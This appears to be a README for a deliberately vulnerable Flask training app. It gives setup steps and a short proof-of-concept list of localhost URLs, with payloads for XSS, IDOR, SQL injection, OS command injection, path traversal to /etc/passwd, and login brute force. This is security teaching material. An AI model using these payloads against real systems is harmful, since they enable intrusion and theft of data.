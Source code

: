 ### Инструкция по сборке и запуску приложения

pip install flask

Run on kali linux or another linux dist

python3 vulnerable-flask-app.py

...

### Proof of Concept

# xss
http://127.0.0.1:8081/xss?name=<script>alert('xss')</script>

# idor
http://127.0.0.1:8081/users?id=1 

# sqli
http://127.0.0.1:8081/user/' OR 1=1 --

# os command injection
http://127.0.0.1:8081/os_inj?hostname=id

# path traversal
http://127.0.0.1:8081/read_file?filename=/../../../../../../etc/passwd

# brute force
http://127.0.0.1:8081/login?username=admin&password=superadmin
...

### Дополнительные комментарии
> Опциональный раздел

...
